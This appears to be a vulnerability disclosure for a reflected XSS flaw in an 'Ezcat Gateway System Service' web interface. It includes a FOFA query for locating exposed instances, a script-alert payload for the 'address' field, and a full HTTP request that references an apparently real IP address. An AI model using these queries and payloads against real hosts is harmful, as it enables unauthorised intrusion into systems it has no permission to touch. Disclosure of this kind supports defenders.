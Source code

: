 ### Ezcat Gateway System Service has XSS vulnerability
#### System homepage
  ![](images/a.png)
#### FOFA search syntax
`"Ezcat Gateway System Service"`
#### Vulnerability screenshot
  ![](images/b.png)

#### Attack methods
1、 The first attack method
Write XSS attack code(`<script>alert (1)</script>`) at`<input type="text" name="address" size="50" style="width: 90%" value="">`
2、 The second attack method
```
GET /?address=%3Cscript%3Ealert%281%29%3C%2Fscript%3E HTTP/1.1
Host: 
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.0.0 Safari/537.36 Edg/129.0.0.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://125.227.50.111:8800/
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.9,en;q=0.8,en-GB;q=0.7,en-US;q=0.6
Connection: close
```
#### Real attack cases
1、 The first attack method(Direct input attack)
  ![](images/c.png)
2、 The second attack method(Packet capture modification attack）
  ![](images/d.png)
